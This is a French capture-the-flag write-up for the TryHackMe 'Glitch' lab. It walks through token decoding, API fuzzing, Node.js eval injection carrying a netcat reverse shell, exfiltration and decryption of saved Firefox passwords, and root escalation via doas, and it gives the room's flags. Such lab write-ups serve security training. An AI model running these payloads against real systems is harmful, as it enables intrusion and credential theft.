




# GLITCH #

## Task 1 GLITCH ##

**Deploy the machine.**

Vous cliquez sur start machine.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.248.246 glitch.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A glitch.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-15 22:03 CEST
Nmap scan report for glitch.thm (10.10.248.246)
Host is up (0.039s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.72 ms 10.9.0.1
2   34.04 ms glitch.thm (10.10.248.246)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.36 seconds

```

On remarque d'après le scan de nmap qu'il un seul service http sur le port 80.



Sur la page principale il y pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://glitch.thm
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>not allowed</title>

    <style>
      * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
      }
      body {
        height: 100vh;
        width: 100%;
        background: url('img/glitch.jpg') no-repeat center center / cover;
      }
    </style>
  </head>
  <body>
    <script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
  </body>
</html>

```

Dans le code source il y a un script en javascript avec une fonction.   



**What is your access token?**


Dans le mode développeur dans console, on exécute la fonction.   
Nous avons en retour un token en base64.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "dGhpc19pc19ub3RfcmVhbA==" | base64 -d
this_is_not_real
```

On décode la chaîne et trouve la réponse.   

La réponse est : this_is_not_real       



Dans Storage on modifie la valeur du cookie avec la réponse trouvée à la première question.  



On rafraîchie la page, elle a changée.   

```html
tim@kali:~/Bureau/tryhackme/write-up$ curl http://glitch.thm -b token=this_is_not_real
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>sad.</title>

    <link rel="stylesheet" href="style.css" />
  </head>
  <body>
    <header>
      <div id="left">
        <h1>
          how<br />
          to<br />
          disappear<br />
          completely<br />
          and never<br />
          <span id="found-text">be found</span><br />
          again
        </h1>
        
      </div>
      <div id="right">
        <h3 class="red-line">this is about you</h3>
        <h3 class="right-text blur-1">i can't go back there</h3>
        <h3 class="right-text blur-2">i can't go back there</h3>
        <h3 class="right-text blur-3">i can't go back there</h3>
        <h3 class="right-text blur-4">i can't go back there</h3>
        <h3 class="right-text blur-5">i can't go back there</h3>
        <h3 class="right-text blur-6">i can't go back there</h3>
        <h3 class="right-text blur-7">i can't go back there</h3>
      </div>
    </header>

    <div id="little-sec">
      <h3>IT TAKES A MONSTER TO DESTROY A MONSTER</h3>
    </div>

    <section>
      <div id="buttons">
        <a class="btn">all</a>
        <a class="btn">sins</a>
        <a class="btn">errors</a>
        <a class="btn">deaths</a>
      </div>
      <div id="items"></div>
    </section>

    <section id="watching">
      <div class="overlay">
        <h3>sad.</h3>
      </div>
    </section>

    <section id="click-here-sec">
      <a href="#">click me.</a>
    </section>

    <script src="js/script.js"></script>
  </body>
</html>
```

```javascript
tim@kali:~/Bureau/tryhackme/write-up$ curl http://glitch.thm/js/script.js -b token=this_is_not_real
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

Dans la page principale on remarque qu'il y un fichier en javascript.    
On regarde dans le fichier en javascript.  
Dans le fichier javascript on remarque qu'un fichier un entrée API qui est \/api\/items   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --sc 200 http://glitch.thm/api/items\?FUZZ\=1
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://glitch.thm/api/items?FUZZ=1
Total requests: 3132

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000358:   200        0 L      2 W        25 Ch       "cmd"                                                                                                                                                                        

Total time: 0
Processed Requests: 3132
Filtered Requests: 3131
Requests/sec.: 0
```

On brute force l'argument de l'api.   
Avec un fuzzer on le brute force.    
Le seule argument de l'api que l'on trouve est cmd.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$  curl -X POST http://glitch.thm/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```

C'est du node.js il faut trouver un exploit.   

```text
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp
```

Nous allons utiliser ce reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ urlencode "require(\"child_process\").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp/f ')"
require%28%22child_process%22%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.228.66%201234%20%3E%2Ftmp%2Ff%20%27%29
```

On encode notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...

```

On écoute le port 1234 pour établir une connexion avec le reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -X POST http://glitch.thm/api/items\?cmd\=require%28%22child_process%22%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.228.66%201234%20%3E%2Ftmp%2Ff%20%27%29
vulnerability_exploited [object Object]
```

On exécute le reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.248.246] 48928
/bin/sh: 0: can't access tty; job control turned off
$ 
```

**What is the content of user.txt?**

On obtient un shell.   

```bash
$ id
uid=1000(user) gid=1000(user) groups=1000(user),30(dip),46(plugdev)
$ cat /home/user/user.txt
THM{i_don't_know_why}
```

On voit que l'on a les droits user.    
On peut lire le fichier user.txt.   

La réponse est : THM{i_don't_know_why}    

**What is the content of root.txt?**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
user@ubuntu:/var/web$ 

cd /home/user
user@ubuntu:~

user@ubuntu:~$ ls -al
ls -al
total 48
drwxr-xr-x   8 user user  4096 Jan 27  2021 .
drwxr-xr-x   4 root root  4096 Jan 15  2021 ..
lrwxrwxrwx   1 root root     9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4  2021 .cache
drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
drwx------   3 user user  4096 Jan  4  2021 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4  2021 .npm
drwxrwxr-x   5 user user  4096 Aug 15 20:02 .pm2
drwx------   2 user user  4096 Jan 21  2021 .ssh
-rw-rw-r--   1 user user    22 Jan  4  2021 user.txt
```
On stabilise le shell.  
Dans le répertoire user on un répertoire firefox caché.   

```bash
user@ubuntu:~$ tar -cf firefox.tar .firefox  
tar -cf firefox.tar .firefox  

user@ubuntu:~$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On met les fichiers de firfox dans une archive.   
On crée un serveur web pour transferer le l'archive.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -l -p 4321 > ./firefox.tar
```

On écoute le port pour récupérer l'archive.   

```bash
user@ubuntu:~$ nc 10.9.228.66 4321 < ./firefox.tar
nc 10.9.228.66 4321 < ./firefox.tar

tim@kali:~/Bureau/tryhackme/write-up$ tar -xf firefox.tar 
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/firefox_decrypt/master/firefox_decrypt.py -nv

2021-08-16 00:03:40 URL:https://raw.githubusercontent.com/timruff/firefox_decrypt/master/firefox_decrypt.py [37599/37599] -> "firefox_decrypt.py" [1]

tim@kali:~/Bureau/tryhackme/write-up$ python3 firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'

```

On télécharge l'archive.   
On décompresse l'archive.  
On récupère firefox_decrypt.py si on l'a pas installé avant.  
On l'exécute sur le répertoire de qui avait été archivé.   
Et on trouve un des identifiants :   
Nom : v0id
Mot de passe : love_the_void    

```bash
user@ubuntu:~$ su v0id
su v0id
Password: love_the_void

v0id@ubuntu:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas

```

On se connect sous l'utilisateur v0id.   
On recherche le fichier setuid.   
On remarque doas qui peut nous avoir les privilèges root.   

```bash
v0id@ubuntu:~$ doas -u root bash
doas -u root bash
Password: love_the_void

root@ubuntu:/home/v0id# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/v0id# cat /root/root.txt

cat /root/root.txt
THM{diamonds_break_our_aching_minds}
```

doas permet d'exécuter un fichier avec les droits d'un autre utilisateur.   
On exécute un shell avec les droits root.   
On lit le fichier root.txt.    

La réponse est : THM{diamonds_break_our_aching_minds}   

